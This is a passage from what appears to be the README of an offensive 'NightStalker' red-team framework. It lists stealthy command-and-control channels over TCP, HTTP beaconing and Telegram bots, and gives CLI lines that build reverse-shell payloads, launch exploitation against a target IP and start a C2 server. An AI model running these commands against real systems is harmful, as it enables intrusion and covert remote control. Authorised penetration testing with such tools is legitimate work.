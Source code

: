 ## 📡 Enhanced C2 Protocols

### TCP C2
- **Direct Connection**: TCP socket-based communication
- **Encrypted Channel**: AES encryption for all data
- **Command Execution**: Remote command execution
- **File Transfer**: Secure file upload/download
- **Stealth Operation**: Advanced stealth capabilities

### HTTP C2
- **Beaconing**: HTTP polling for commands
- **Encrypted Payloads**: Base64/AES encrypted data
- **Custom Headers**: Configurable HTTP headers
- **Proxy Support**: HTTP/SOCKS proxy support
- **HTTPS Support**: Secure HTTPS communication

### Telegram C2
- **Bot Integration**: Telegram bot-based C2
- **Encrypted Messages**: End-to-end encryption
- **File Sharing**: Secure file transfer
- **Stealth Operation**: Blend with normal traffic
- **Advanced Features**: Advanced Telegram integration

## 🎮 Integration with Main Framework

### Unified Interface
```bash
# Access through main NightStalker CLI
./nightstalker.sh payload build --type reverse_shell --format python

# Advanced exploitation
./nightstalker.sh redteam exploit --target 192.168.1.100 --type network

# Stealth operations
./nightstalker.sh stealth build --lhost 192.168.1.100 --lport 4444 --https

# C2 operations
./nightstalker.sh c2 server --host 0.0.0.0 --port 4444
```

### Advanced Capabilities
- **Attack Chains**: Multi-phase attack sequences
- **Professional Reporting**: HTML and JSON reports
- **Tool Management**: Universal tool manager
- **Cross-Platform**: Full Windows, Linux, and macOS support

## 🔧 Development
